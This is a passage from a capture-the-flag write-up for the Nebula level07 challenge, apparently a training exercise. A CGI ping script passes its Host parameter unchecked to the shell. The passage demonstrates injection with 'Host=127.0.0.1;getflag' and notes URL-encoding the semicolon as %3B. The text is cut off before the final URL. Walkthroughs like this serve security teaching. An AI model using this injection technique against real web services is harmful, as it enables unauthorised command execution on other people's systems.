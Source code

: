 This will probably require us to inject a command via the `$host` variable, as the script does not do any input validation. There is also a `thttpd.conf` file which contains the port where the script is accessible

```
index.cgi  thttpd.conf
level07@nebula:/home/flag07$ cat thttpd.conf
# /etc/thttpd/thttpd.conf: thttpd configuration file

# This file is for thttpd processes created by /etc/init.d/thttpd.
# Commentary is based closely on the thttpd(8) 2.25b manpage, by Jef Poskanzer.

# Specifies an alternate port number to listen on.
port=7007
[...]
```

We can play around without the right permissions from the command line. The `Host` variable is our entry point for command injection:

```bash
level07@nebula:/home/flag07$ ./index.cgi Host=127.0.0.1
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.011 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.044 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.011/0.026/0.044/0.014 ms
</pre></body></html>level07@nebula:/home/flag07$ ./index.cgi Host=127.0.0.1;getflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.014 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.051 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1998ms
rtt min/avg/max/mdev = 0.014/0.031/0.051/0.015 ms
</pre></body></html>getflag is executing on a non-flag account, this doesn't count
```

We can inject the getflag command by adding another command to the ping statement via ";". To get the actual flag the cgi script has to be executed by `flag07`, which happens if it is called via the thttpd server listening on port 7007. To get the `;` to work in the Browser we have to encode it first, such that it is suitable for an URL. A quick search for an encoder reveals that the correct symbol is `%3B`, so we enter the URL into Firefox:
